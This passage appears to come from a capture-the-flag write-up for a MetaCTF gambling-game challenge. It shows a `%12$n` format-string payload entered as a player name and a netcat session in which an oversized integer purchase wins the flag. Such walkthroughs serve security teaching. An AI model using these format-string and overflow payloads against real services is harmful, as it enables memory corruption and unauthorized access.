 This meant that if used the `%12$n` format string in my name, I would write to the twelfth address on the stack. Since the twelfth address on the stack is the `god_is_really_happy` pointer, we will be able to change the value of `god_is_happy` to true and get the flag!

```
$ nc host1.metaproblems.com 5950
Welcome to this very in-depth game. The goal is to amass wealth and earn the god's favor.
Before we continue, what is your name?
1%12$n
Current funds: $150
Your options are:
1: Place a bet on a coin flip for a chance to double your money
2: Go mining to earn some money
3: Buy things
4: Quit (Your money will not be saved)
Please enter a number 1-4 to continue...
3
What would you like to buy? Options are encouragement (cost: 20), shout-out-from-literally-god (cost: 1000000000000000), tool (cost: 100), or cancel
9223372036854775808
What would you like to buy? Options are encouragement (cost: 20), shout-out-from-literally-god (cost: 1000000000000000), tool (cost: 100), or cancel
shout-out-from-literally-god
How many would you like to buy? Must be greater than 0
9223372036854775808
Hmmmm
1
You have done well!
Good job!
I'm feeling generous right now!
Have a flag!
MetaCTF{i_W0N_w!thOUt_CHEat!nG!!}
Sincerely,
    ~God
Current funds: $150
Your options are:
1: Place a bet on a coin flip for a chance to double your money
2: Go mining to earn some money
3: Buy things
4: Quit (Your money will not be saved)
Please enter a number 1-4 to continue...
```

{% include related_posts.html %}
